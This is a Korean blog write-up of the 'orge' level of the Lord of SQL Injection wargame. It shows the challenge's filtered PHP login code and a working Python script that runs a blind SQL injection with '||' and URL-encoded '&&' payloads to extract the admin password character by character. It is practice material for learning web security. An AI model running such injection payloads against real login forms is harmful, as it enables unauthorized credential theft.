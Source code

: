 ```yaml
---
layout: post
title: ! "[LOS] orge"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - gremlin
  - write-up
---
```


### https://los.eagle-jump.org/ 버전
![]({{ site.baseurl }}/assets/posts/los/orge.png)

`query : select id from prob_orge where id='guest' and pw=''`
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

orge 문제는 orc 문제와 비슷한 blind sql injection 문제인 듯 하다.
darkelf 문제와 마찬가지로 or,and는 필터링 된다.

addslashes 함수가 쓰이고 query가 두 개 있다.
orc 문제는 수동으로 풀었지만 orge 문제부터는 python 코드를 이용해 풀 예정이다.

아래 python 코드는 패스워드의 길이와 전체 패스워드를 출력해준다.
orc 문제를 풀었던 것에서 조금만 수정을 하면 되는데
url 주소창에 &&을 그대로 넣어주면 반영이 안된다.
url인코딩을 통해 &&을 %26%26으로 바꿔주고, ||도 바꿔주고 싶다면 %7c%7c 로 하면 된다.


```py
from requests import get
import string
from time import sleep

url = "https://los.eagle-jump.org/orge_~~~.php"

cookies = dict(PHPSESSID="세션")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

for i in range(1,20):
    parameter = "?pw=1'||length(pw)='"+ str(i) + "%23"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is " + str(i))
        break
for i in range(1, length):
    for a in alpha:
        parameter = "?pw=' || id='admin' %26%26 ASCII(substr(pw,"+ str(i)+",1))="+str(ord(a))+"%23"
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(i) + " -> " + a)
            result += a
            break

    if i == 1 and result == "":
        print("password not found")
        exit(0)

    if i == length-1:
        print("\npassword is"+result)
        print("\n")
```

![]({{ site.baseurl }}/assets/posts/los/orge_auto.png)

코드 실행 결과
패스워드 길이는 8, 전체 패스워드는 6c864dec 이다.
`?pw=6c864dec` 를 입력해주면 문제가 풀린다.

![]({{ site.baseurl }}/assets/posts/los/orge_clear.png)

### https://los.rubiya.kr 버전
코드는 동일하다

![]({{ site.baseurl }}/assets/posts/los/orge_result.png)
![]({{ site.baseurl }}/assets/posts/los/orge_py_clear.png)
